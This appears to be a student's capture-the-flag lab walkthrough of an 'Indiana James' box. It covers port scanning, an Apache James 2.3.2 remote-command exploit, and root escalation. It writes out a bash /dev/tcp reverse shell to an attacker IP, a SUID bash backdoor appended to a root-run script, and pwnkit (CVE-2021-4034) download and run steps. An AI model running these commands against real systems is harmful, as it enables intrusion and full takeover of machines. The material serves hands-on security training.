

# Indiana James
Test

## Nmap Scan

sudo nmap -p- -Pn -O -sCTV -vvv $b --reason -oN james_version_connect_script_os.txt

## Open Ports
```Bash
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
1000/tcp open  cadlock
1080/tcp open  socks
4555/tcp open  rsip
5432/tcp open  postgresql
```


#### 22/tcp   open  ssh
OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.10 (Ubuntu Linux; protocol 2.0)
22/tcp   open  ssh

#### 25/tcp
```Bash
syn-ack JAMES smtpd 2.3.2
|_smtp-commands: localhost Hello nmap.scanme.org (10.50.131.180 [10.50.131.180]), PIPELINING, ENHANCEDSTATUSCODES, 
```

#### 80/tcp   open  http
```Bash
syn-ack Apache httpd 2.4.7
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-02-06 18:02  html/
| -     2019-02-06 18:03  mail/
```

#### 110/tcp  open  pop3

syn-ack JAMES pop3d 2.3.2

Attempted connection with netcat. No real respones
```
┌──(edward㉿kali)-[~/course-notes/Evolve/Evolve Labs/Indiana James]
└─$ nc $b 110                  
+OK localhost POP3 server (JAMES POP3 Server 2.3.2) ready 
VRFY root

user
```


#### 119/tcp  open  nntp


```
JAMES nntpd (posting ok)
```

#### 1000/tcp open  http   

```Bash
Gunicorn 19.8.1
|_http-favicon: Unknown favicon MD5: 3E3383619966F3BE5CC636EDD1D0B8B6
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: gunicorn/19.8.1
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://10.50.144.129:1000/login?next=%2F
```


The login pace here is a rabbit hole. The landing page offers nothing. **If it was an actual PostgreSQL database management backened, great find.** We could dump tables to files, add our SSH key to root
#### 1080/tcp open  http     

```Bash
Thin httpd 1.5.1 (codename Straight Razor)
|_http-favicon: Unknown favicon MD5: BAEFB5D4FD5460C6A572D90827CA117E
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: thin 1.5.1 codename Straight Razor
|_http-title: MailCatcher
```



#### 4555/tcp open  james-admin syn-ack JAMES Remote Admin 2.3.2


#### 5432/tcp open  postgresql  

```Bash
PostgreSQL DB 9.3.21 - 9.3.25
|_ssl-date: TLS randomness does not represent time
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.13

```

## Exploit Path

Port 1080 is running "JAMES Remote Admin 2.3.2" and you can google it to receieve an answer directly.
We want **Apache James 2.3.2** RCE. 

**Exploit DB**
https://www.exploit-db.com/exploits/50347

**Raw**
https://www.exploit-db.com/raw/50347

- Can also `searchsploit james`

```Bash
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
Apache James Server 2.2 - SMTP Denial of Se | multiple/dos/27915.pl
Apache James Server 2.3.2 - Insecure User C | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command  | linux/remote/35513.py
WheresJames Webcam Publisher Beta 2.0.0014  | windows/remote/944.c
-------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- or `searchsploit "apache 2.3.2"

```Bash
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin R | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Co | php/remote/29316.py
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory | linux/webapps/42745.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of | multiple/dos/26710.txt
Apache James Server 2.3.2 - Insecure User C | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command  | linux/remote/35513.py
```

Pulling the exaploit
```Bash
┌──(edward㉿kali)-[~/course-notes/Evolve/Evolve Labs/Indiana James]
└─$ wget -O james.py https://www.exploit-db.com/raw/50347
```
Upload the exploit
```Bash
┌──(edward㉿kali)-[~/course-notes/Evolve/Evolve Labs/Indiana James]
└─$ python3 james.py $b 10.50.131.180 31337 
```

Catch the reverse shell with this up first
```Bash
nc -lvnp 31337
```

Will get a user in about a minute as "isabel" with the first flag. 

```
isbel@ip-10-50-144-129:~$ whoami
whoami
isbel
isbel@ip-10-50-144-129:~$ ls
ls
flag.txt
isbel@ip-10-50-144-129:~$ cat flag.txt  
cat flag.txt
__   _____  _   _   ____ ___ ____    ___ _____ _ 
\ \ / / _ \| | | | |  _ \_ _|  _ \  |_ _|_   _| |
 \ V / | | | | | | | | | | || | | |  | |  | | | |
  | || |_| | |_| | | |_| | || |_| |  | |  | | |_|
  |_| \___/ \___/  |____/___|____/  |___| |_| (_)


FLAG{3453dwie28edqd0r4ufwnorofe5r3}

---- KUDOS from Evolve Academy ...  
```


### Privesc

We run linpeas, obtained from the host via python seever. 

Linpeas has some interesting output
```Bash
root      1504  0.0  0.9 290432 19640 ?        Sl   02:03   0:00  _ /usr/bin/docker run --network host -e PGADMIN_LISTEN_PORT=1000 -e PGADMIN_DEFAULT_EMAIL=admin@jamesmail.evo -e PGADMIN_DEFAULT_PASSWORD=YoullNeverGetAholdOfMySecrets --name pgadmin4 dpage/pgadmin4
```

#### Linpeas Notes
- Check everything!
- Line by line
- Check config files specifically. 
- Look at the running tasks, network connections, etc.
- Log files we can write to?
- Owned by root but readable by me?
- Backup files?
- Knowing if you are in a VM is important to consider. Certain security implications for the box you attacked, such as VM escape. 
	- Mostly, you want to know what happened. Were you expecting bare metal? If you were, you might be in a sandbox. 
- Interesting writeable and group writeable files. 
```Bash
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)                                                                                   
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files               
/home/isbel                                                                                
/opt/antivirus  # <<<<< Interesting
/run/lock
/run/shm
/run/user/1002
/tmp
/tmp/.ICE-unix
/tmp/tmux-1002
/tmp/.X11-unix
/var/crash
/var/lib/php5
/var/tmp

╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files               
  Group james:                                                                             
/opt/antivirus/antivirus.sh  # <<<<< Very interesting
```

The `opt/antivirus/antivirush.sh` file is owned by root, but readable and executable by anyone in the group **james**, which we are a part of. 

```Bash
isbel@ip-10-50-157-127:/opt/antivirus$ ls -la
total 12
drwxrwxrwx 2 root root  4096 Feb  6  2019 .
drwxr-xr-x 4 root root  4096 Feb  6  2019 ..
-rwxrwxr-x 1 root james  104 Apr 16  2021 antivirus.sh
isbel@ip-10-50-157-127:/opt/antivirus$ id

uid=1002(isbel) gid=1002(isbel) groups=1002(isbel),1001(james)
isbel@ip-10-50-157-127:/opt/antivirus$ 
```

The antivirus.sh file contains some code, we add the last two, understanding it is owned by root it will likely run by root. 

```Bash
#!/bin/bash
rm -rf /etc/bash_completion.d/*.Repository.*
touch /tmp/test
chown root:root /tmp/privshell

chmod +s /bin/bash # < Added
bash -i >& /dev/tcp/10.50.131.180/4444 0>&1 # < Added
```

Running `/bin/bash` will not allow you to be root. Or `bash -p`. This also throws a reverse shell/ 

> From the bash man page:
"...If the -p option is supplied at invocation, the  startup behavior  is the same, but the effective user id is not reset." In other words, it'll run as root since SUID is set and not as isbel.

Alternatively, can add an echo of your public key file to the script

```Bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDMF8yKokHk3MlGEuB...
```

Something fun for a POC, add this to the script.

```Bash
echo $(whoami) > /opt/antivirus/user.txt
```
#### Sudo Privesc
Stabilize the shell

- Sudo is vulnerable to "pwnkit"
- Version: Sudo version 1.8.9p5
- Download from here
```Bash
git clone https://github.com/berdav/CVE-2021-4034.git
```

OR 

```Bash
https://github.com/arthepsy/CVE-2021-4034

# Then have to compile it with

gcc filename.c -o binary_file_name
```

- Send it on a python server to the victim. 

```Bash
wget -O CVE-PWNKIT -np -r 10.50.131.180:8080/CVE-2021-4034/
ls
cd 10.50.131.180\:8080/
ls
cd CVE-2021-4034/
ls
clear
make
ls
cd dry-run/
ls
chmod +x pwnkit-dry-run.c 
./pwnkit-dry-run.c 
cd ..
ls
./cve-2021-4034
```

Will elevate you to root. 

```Bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Running job discloses username and password

